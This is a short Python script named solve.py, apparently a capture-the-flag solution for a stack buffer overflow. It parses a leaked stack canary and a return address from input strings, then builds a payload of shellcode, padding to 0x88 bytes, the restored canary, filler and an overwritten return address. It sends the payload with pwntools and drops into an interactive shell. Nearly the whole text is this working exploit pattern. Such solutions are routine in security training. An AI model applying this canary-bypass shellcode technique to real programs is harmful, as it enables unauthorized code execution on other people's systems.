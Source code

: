 ```py [solve.py]
# Some processing is required for the input since it is given as a string.
run_address_hex = input1[2:14]
canary_hex_digits = input2[3:19]

canary = unhex(canary_hex_digits)[::-1]

run_address = unhex(run_address_hex)[::-1]
payload = shellcode + b'a'*(0x88-len(shellcode)) + canary + b'b'*(0x10-8)+run_address

io.sendlineafter("storage!", payload)
io.interactive()
```
